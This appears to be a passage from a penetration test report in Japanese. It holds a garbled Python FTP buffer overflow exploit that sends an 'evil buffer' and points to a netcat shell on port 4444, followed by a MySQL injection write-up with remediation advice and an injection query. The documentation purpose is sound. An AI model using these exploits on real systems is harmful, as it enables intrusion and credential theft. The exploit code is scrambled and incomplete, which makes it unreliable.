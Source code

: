 ```
# Edit the IP, Username and Password.
ftp = FTP('127.0.0.1') 
ftp.login('ftp','ftp')
print "\nEvil Buffer sent..."
print "\nTry connecting with netcat to port 4444 on the remote machine."
except:
print "\nCould not Connect to FTP Server."
try:
ftp.transfercmd("STOR " + buffer) 
except:
print "\nDone."
```

**4.1.3 権限昇格 - MySQL インジェクション**   
脆弱性の説明ターゲットに足場を築いた後、Johnはローカルで実行されている複数のアプリケーションに気づきました。そのうちの1つ、ポート80のカスタムWebアプリケーションはSQLインジェクション攻撃を受ける傾向がありました。Chiselを使用してポート転送を行うことで、JohnはこのWebアプリケーションにアクセスすることができました。侵入テストを実施する際、John は、taxid クエリ文字列パラメータに対するエラーベースの MySQL インジェクションに気づきました。テーブルデータを列挙している間に、John は暗号化されていないデータベースのルートアカウントのログイン情報とパスワード情報を抽出することに成功し、それはシステムの管理ユーザーアカウントのユーザー名とパスワードのアカウントとも一致しました。これにより、オペレーティング・システムだけでなく、システムに含まれるすべてのデータの侵害に成功しました。    

***脆弱性の修正***: これはカスタムのウェブアプリケーションであるため、特定のアップデートではこの問題を適切に解決することはできません。このアプリケーションは、ユーザーが入力したデータを適切にサニタイズし、ユーザーが限定されたユーザーアカウントで実行されていることを確認し、SQL データベース内に保存された機密データが適切に暗号化されるようにプログラムされる必要があります。エラーが表示されない場合、攻撃者が弱点を突くことが難しくなるため、カスタムエラーメッセージを使用することを強く推奨します。    
**深刻度**：<span style="color:red;">致命的</span>    

**攻撃を再現するための手順**    
```
SELECT * FROM login WHERE id = 1 or 1=1 AND user LIKE "%root%"
```
**スクリーンショット**   
![b9d6b63f450a29403a8a987cc01a4063.png](../_resources/b9d6b63f450a29403a8a987cc01a4063.png)

**4.1.3 ポストエクスプロイテーション**    
**システム証明のスクリーンショット**    
![7d41d58f9c93a016319264e0a27a2063.png](../_resources/7d41d58f9c93a016319264e0a27a2063.png)
